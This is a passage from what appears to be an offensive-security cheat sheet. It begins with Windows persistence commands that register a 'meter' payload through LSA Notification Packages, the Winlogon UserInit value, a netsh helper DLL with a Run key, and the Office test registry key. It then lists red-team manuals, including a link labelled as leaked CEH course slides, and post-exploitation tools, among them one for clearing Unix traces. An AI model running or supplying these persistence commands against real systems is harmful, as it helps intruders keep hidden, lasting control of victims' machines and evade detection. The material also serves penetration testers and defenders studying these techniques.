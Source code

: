 - Lsass

    `cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f`<br>

- Winlogon

    `cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"`<br>

- Netsh

    `cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll`<br>
    `cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"`

- Office

    `cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll`

# MANUALS

- [Red Team Notes](https://dmcxblue.gitbook.io/red-team-notes-2-0/)
- [Hacktricks](https://book.hacktricks.xyz/)
- [Redteamrecipe](https://redteamrecipe.com/)
- [Red Team Guides](https://book.redteamguides.com/)
- [Blue Team Guides](https://book.blueteamguides.com/)
- [swisskey manul](https://swisskyrepo.github.io/InternalAllTheThings/)
- [Infosec sources](https://github.com/foorilla/allinfosecnews_sources)
- [AD attack manul](https://defcon.ru/penetration-testing/18872/)
- [GTFOBins - UNIX LPE](https://gtfobins.github.io/)
- [MS office dde](https://telegra.ph/Poleznoe-10-16-2)
- [DLL Hijacking manul](https://elliotonsecurity.com/perfect-dll-hijacking/)
- [Kerberos&AD manul](https://ardent101.github.io/)
- [Kerberos manul](https://habr.com/ru/articles/803163/)
- [Hackerone reports](https://github.com/reddelexc/hackerone-reports)
- [ACL manul](https://labs.lares.com/securing-active-directory-via-acls/)
- [Mimikatz manul](https://hadess.io/mimikatz-comprehensive-guide/)
- [Small red team manul](https://afine.com/red-team-trickery/)
- [PHP Attack MANUL and others](https://blog.devsecopsguides.com/attacking-php)
- [THC Cheatsheet](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)
- [Linux manul](linux_hacker_manul)
- [CEHv10 - leaked slides and labs](https://github.com/khanhnnvn/CEHv10)
- [malicious files](https://filesec.io)
- [manuls](https://posts.specterops.io/)
- [offensive security roadmap](https://github.com/curiv/russian-offensive-security-questions)
- [OSCP cheatsheet](https://github.com/curiv/oscp-cheatsheet)

# PostExploitation

- [Amnesiac](https://github.com/Leo4j/Amnesiac) for Win and [Bashark](https://github.com/redcode-labs/Bashark) for linux
- [Unix trace clear tool](https://github.com/mufeedvh/moonwalk)
  